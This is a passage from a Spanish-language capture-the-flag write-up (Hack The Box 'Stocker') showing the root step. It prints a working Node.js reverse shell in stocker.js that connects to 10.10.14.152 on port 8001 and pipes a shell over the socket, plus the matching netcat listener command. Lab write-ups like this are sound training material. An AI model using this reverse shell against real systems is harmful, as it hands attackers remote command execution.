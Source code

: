 ```js
    (function(){
    var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(8001, "10.10.14.152", function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
    })();
```
{: file='stocker.js'}

Luego en nuestra máquina de atacante, abrimos una terminal y nos ponemos en escucha por el puerto 8001 **nc -lvnp 8001**

![](/assets/img/HTB/writeup-stocker/root.png) _**Figure 20**: User root_

Probamos y listo ya tenemos la **Flag**.
